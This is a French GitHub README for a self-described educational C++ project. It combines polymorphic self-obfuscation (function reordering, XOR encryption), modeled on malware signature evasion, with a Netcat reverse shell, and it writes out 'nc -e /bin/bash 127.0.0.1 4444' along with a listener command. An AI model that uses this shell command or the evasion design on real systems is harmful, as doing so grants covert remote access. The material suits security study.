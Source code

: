 # 🔥 crypt0morphic 🔥

> "L'obfuscation, c'est l'art de cacher l'évidence... et de rendre la vie difficile aux curieux !" 🕵️‍♂️💻

## 🛠️ Qu'est-ce que crypt0morphic ?
crypt0morphic est un projet **pédagogique** en C++ qui explore les techniques d'**obfuscation polymorphe** appliquées à un **reverse shell**. Son but ?

✅ Modifier son propre code source à l'exécution 📜🔄  
✅ Réordonner les blocs de fonctions de manière dynamique 🎲  
✅ Chiffrer partiellement le code via **XOR** 🔐  
✅ Lancer un **reverse shell** avec **Netcat** 🌐💀  

---
## 📌 Table des Matières
1. [Présentation](#-présentation)
2. [Fonctionnalités](#-fonctionnalités)
3. [Architecture du Projet](#-architecture-du-projet)
4. [Installation et Dépendances](#-installation-et-dépendances)
5. [Compilation et Exécution](#-compilation-et-exécution)
6. [Script d'Automatisation](#-script-dautomatisation)
7. [Tests Unitaires](#-tests-unitaires)
8. [Mécanismes Internes](#-mécanismes-internes)
9. [Restauration du Code Source](#-restauration-du-code-source)
10. [Remarques et Sécurité](#-remarques-et-sécurité)
11. [Licence](#-licence)

---
## 🎯 Présentation
L'objectif de crypt0morphic est de **démontrer comment un programme peut s'auto-obfusquer** en modifiant son propre fichier source **sans altérer ses fonctionnalités**. Il s'inspire des méthodes employées par certains malwares pour échapper aux détections par signature 🦠🚨.

## ⚡ Fonctionnalités
- **Auto-obfuscation** : Le programme modifie son propre fichier source 📜✂️.
- **Réordonnancement des fonctions** : Détection des blocs via `// BEGIN_FUNCTION` & `// END_FUNCTION` et réorganisation aléatoire 🔄.
- **Chiffrement XOR** : Certaines parties du code sont chiffrées avec une clé fixe 🔐.
- **Reverse Shell** : Utilisation de **Netcat** pour obtenir un accès distant 💀.
- **Sauvegarde et restauration** : Possibilité de revenir à la version originale en cas d'erreur 🛡️.

## 🏗️ Architecture du Projet
📂 **Organisation du projet** :
```
.
├── README.md
├── scripts
│   └── build_ofuscate.sh
├── src
│   ├── main.cpp
│   ├── obfuscator
│   │   ├── obfuscator.cpp
│   │   └── obfuscator.h
│   └── reverse_shell
│       ├── reverse_shell.cpp
│       └── reverse_shell.h
└── tests
    ├── builds
    │   ├── test_obfuscator
    │   └── test_reverse_shell
    ├── test_obfuscator.cpp
    └── test_ReverseShell.cpp
```

## 📥 Installation et Dépendances
**Prérequis :**
- 💻 **OS** : Ubuntu 24+ ou distribution Linux compatible 🐧.
- 🏗️ **Compilateur** : g++ (C++17+).
- 🔗 **Netcat** : Installation via :
  ```bash
  sudo apt-get install netcat-traditional
  sudo update-alternatives --config nc
  ```

## ⚙️ Compilation et Exécution
**Compilation automatique :**
```bash
./scripts/build_ofuscate.sh
```
**Compilation manuelle :**
```bash
g++ -std=c++17 -I./src -o crypt0morphic src/main.cpp src/obfuscator/obfuscator.cpp src/reverse_shell/reverse_shell.cpp
```
**Lancement du listener (dans un autre terminal) :**
```bash
nc -l -p 4444
```
**Exécution du programme :**
```bash
./crypt0morphic
```

## 🤖 Script d'Automatisation
Le script `build_ofuscate.sh` permet de :
✅ Nettoyer les anciens builds 🗑️  
✅ Compiler l'application 🏗️  
✅ Exécuter les tests unitaires 🔬  
✅ Lancer `crypt0morphic` 🚀  

## 🧪 Tests Unitaires
Les tests unitaires se trouvent dans `tests/` et couvrent :
- **ReverseShell** : Teste la génération de commande et l'exécution 🕵️.
- **Obfuscator** : Valide la sauvegarde, le réordonnancement et le chiffrement 🔄🔐.

Compilation et exécution des tests :
```bash
g++ -std=c++17 -I./src -o tests/builds/test_reverse_shell src/reverse_shell/reverse_shell.cpp tests/test_ReverseShell.cpp
./tests/builds/test_reverse_shell

g++ -std=c++17 -I./src -o tests/builds/test_obfuscator src/obfuscator/obfuscator.cpp tests/test_obfuscator.cpp
./tests/builds/test_obfuscator
```

## 🏴‍☠️ Mécanismes Internes
**Obfuscation :**
- Sauvegarde initiale du fichier `.bak`
- Extraction des blocs de fonctions (`// BEGIN_FUNCTION`, `// END_FUNCTION`)
- Réorganisation aléatoire 🎲
- Chiffrement XOR 🔐

**Reverse Shell :**
```bash
nc -e /bin/bash 127.0.0.1 4444
```

## 🔄 Restauration du Code Source
En cas de souci, vous pouvez restaurer le fichier d'origine avec `restoreBackup()`.
```bash
cp src/main.cpp.bak src/main.cpp
```

## ⚠️ Remarques et Sécurité
⚠️ **Usage éducatif uniquement** : Ce projet est destiné à l'apprentissage et non à une utilisation malveillante 🚨.
⚠️ **Tests dans un environnement isolé** : Ne pas exécuter sur une machine de production ⚔️.

## 📝 Licence
🚀 **Projet libre et pédagogique** : Modifiez et utilisez ce projet pour apprendre, mais respectez les lois en vigueur 📜✨.
